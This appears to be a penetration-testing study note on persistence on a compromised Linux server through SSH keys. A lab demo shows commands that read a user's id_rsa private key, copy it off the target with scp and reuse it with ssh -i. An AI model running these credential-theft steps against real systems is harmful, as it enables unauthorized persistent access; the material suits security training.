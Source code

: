 # Persistence Via SSH Keys

## Persistence Via SSH Keys

* Linux is typically deployed as a server operating system and as a result, Linux servers are typically acessed remotely via services/protocols such as SSH.
* If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
* In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
* After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

## Practice Demo

In this case we have the credentials to login with ssh as the student user.

In the home directory we have the "<mark style="color:red;">.ssh</mark>" folder.

We navigate to the <mark style="color:red;">.ssh</mark> folder.

#### Cat the private key:

* <mark style="color:yellow;">cat id\_rsa</mark>

#### Copy the private key into our system

* <mark style="color:yellow;">scp student@targetIP:\~/.ssh/id\_rsa .</mark>

#### Give the appropriate permissions to the private key file

* <mark style="color:yellow;">chmod 400 id\_rsa</mark>

#### Access using the private key

* <mark style="color:yellow;">ssh -i id\_rsa student@targetIP</mark>
